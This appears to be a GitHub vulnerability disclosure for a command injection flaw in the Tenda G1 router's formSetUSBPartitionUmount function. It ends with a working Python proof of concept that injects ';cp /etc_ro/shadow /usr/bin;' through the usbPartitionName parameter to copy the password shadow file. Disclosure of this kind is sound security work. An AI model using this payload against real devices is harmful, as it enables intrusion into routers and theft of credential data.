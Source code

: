   # Tenda router formSetUSBPartitionUmount function any command execution vulnerability

> vendor:Tenda
>
> product:G1
>
> version:v3.0 v16.0.7.4(1584)
>
> type:Command Execution

## Vulnerability Description

Tenda G1 v3.0 v16.0.7.4(1584) were discovered to contain a any command execution via the usbPartitionName parameter in the formSetUSBPartitionUmount function.

## Vulnerability Details

In this function, use the cJSON_GetString function to obtain the "usbPartitionName" variable from the JSON object and assign it to v6. It is directly passed to the execution function doSystemCmd for execution without proper filtering or escaping processing. Attackers may construct malicious usbPartitionName value to execute arbitrary commands when doSystemCmd is called.

<img width="547" alt="屏幕截图 2024-03-07 111339" src="https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/8e827cd8-9122-49b3-a204-d657eca74b96">


## POC
    import requests

    url = "http://192.168.244.130/goform/SetUSBPartitionUmount"
    cmds = ";cp /etc_ro/shadow /usr/bin;"


    payload = {'usbPartitionName': cmds}
    r = requests.post(url, data=payload)
    print(r.status_code)
    print(r.content)
    
